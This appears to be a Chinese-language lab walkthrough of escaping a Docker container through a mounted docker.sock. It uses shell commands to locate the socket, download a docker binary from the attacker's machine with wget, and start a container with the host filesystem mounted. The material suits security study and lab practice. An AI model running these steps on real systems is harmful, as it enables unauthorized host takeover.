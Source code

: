 配置不当--Socket逃逸
```shell
启动靶场：docker run -itd --name with_docker_sock -v /var/run/docker.sock:/var/run/docker.sock ubuntu

进入环境：docker exec -it with_docker_sock /bin/bash
```
![image-20231202152403675](./assets/image-20231202152403675.png)

检测文件：ls -lah /var/run/docker.sock

全文搜索：find / -type s -name docker.sock 2\>/dev/null

/var/run/docker.sock 和 /run/docker.sock 都是同一个 Unix 套接字文件的不同路径。这是因为 /var/run 和 /run 实际上是 Linux 系统中的符号链接，它们指向同一个目录。

![image-20231202152409041](./assets/image-20231202152409041.png)

找到之后，上传docker安装包到目标机器

python3 -m http.server 80 本地起一个环境\[把docker安装包放在启动目录下\]

下载

wget <http://192.168.86.218/docker-18.09.9.tgz>

解压

tar -xzvf docker-18.09.9.tgz

![image-20231202152415360](./assets/image-20231202152415360.png)

cd docker

chmod +x docker

./docker -H unix:///run/docker.sock images

![image-20231202152419008](./assets/image-20231202152419008.png)

这个时候，启动一个本地docker

./docker -H unix:///var/run/docker.sock run -d -v /:/host alpine tail -f /dev/null

 

./docker -H unix:///var/run/docker.sock exec IMAGE_ID 命令

./docker -Hunix:///var/run/docker.sock exec fe0f9c6f412c ls /host

![image-20231202152422936](./assets/image-20231202152422936.png)

 

逃逸成功

接下来看逃逸成功之后的操作---docker
